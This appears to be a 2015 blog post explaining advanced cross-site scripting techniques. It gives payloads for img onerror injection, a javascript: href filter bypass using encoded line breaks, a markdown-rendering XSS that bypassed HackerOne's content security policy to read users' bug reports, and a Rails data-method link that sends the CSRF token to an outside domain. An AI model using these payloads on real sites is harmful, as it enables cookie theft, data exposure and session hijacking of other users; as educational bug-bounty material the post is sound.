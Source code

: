```yaml
---
title: advanced cross site scripting part 1
updated: 2015-11-26
tags: hackerone,xss,cross site scripting,csp bypass,href xss,stored xss,reflected xss,dom xss,google xss,csrf,ruby
---
```

> Cross-site scripting (XSS) is a type of computer security vulnerability typically found in web applications.
XSS enables attackers to inject client-side script into web pages viewed by other users.

Yeah you know about that . Let's dive deep into the cross site scripting . Now a days xss is not just inserting 
`"><img src=x onerror=prompt(9)>` .There are some clever hacks for cross site scripting . Some people redefined the way 
attackers can perform xss.
now think of `<a>` tag . Commonly known attack is inserting `javascript:alert(document.cookie)` into href . 

```html
<a href="javascript:alert(document.cookie)">lol</a>
```
But there are some filters those need an protocol like `{anything}://` . But this one dosen't executes 
`javascript://alert(document.cookie)` . To bypass this one we need some characters like %0a%0d . Final payload

```html
<a href="javascript://%0a%0dalert(document.cookie)">lol</a>
```
This one is basic too. Now we will discuss about a rare xss found by danlec which bypassed strong csp of hackerone.
Hackerone uses daring fireball as markdown [https://daringfireball.net/projects/markdown/basics](https://daringfireball.net/projects/markdown/basics).
Danlec found that `<http://\<h1\>test\</h1\>>` rendered to `http://<h1>test</h1>`
Hackerone uses strong csp but some one can access the information of the user bugs 

```
<http://\<img\ src=0\ onerror=\"$.getJSON(\'/bugs\',function(a){alert(JSON.stringify(a));})\"\>>
```

Some can send csrf token to other domain by a link handle bypass

```html
<a href="http://danlec.com" data-method="post">Proof of Concept</a>
```

`data-method="post"` Normally url's are get requests but ruby has an option of adding post method . Ruby sends `X-Csrf-Token`
with the post request so any url there can catch the csrf token at server side .


Visit my next article about advanced xss [http://withintech.com/notes/xss-cross-site-scripting-2](http://withintech.com/notes/xss-cross-site-scripting-2)

<script async src="//pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<!-- second ad -->
<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-6760357694701522"
     data-ad-slot="5076786892"
     data-ad-format="auto"></ins>
<script>
(adsbygoogle = window.adsbygoogle || []).push({});
</script>
